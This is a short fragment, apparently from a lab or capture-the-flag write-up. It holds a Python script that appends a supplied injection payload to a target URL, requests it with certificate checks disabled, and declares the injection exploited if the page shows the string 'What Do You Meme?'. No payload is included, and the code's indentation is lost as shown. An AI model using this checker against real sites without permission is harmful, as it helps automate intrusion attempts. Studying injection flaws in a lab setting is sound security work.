

SCRIPT
#!/usr/bin/python3
import requests
import sys
from termcolor import colored
if len(sys.argv) < 3:
print("./script <url> <payload>")
sys.exit()
url = f"{sys.argv[1]}{sys.argv[2]}"
get_req = requests.get(f"{url}", verify=False)
if "What Do You Meme?" in get_req.text: # This text is specifically shosen from applications current behavior
print(colored("\n[+] The Injection was exploited Successfully\n", 'green', attrs=['bold']))
else:
print(colored("\n[!] The Injection was unsuccessful\n", 'red', attrs=['bold']))
# The Script Runs Flawlessly
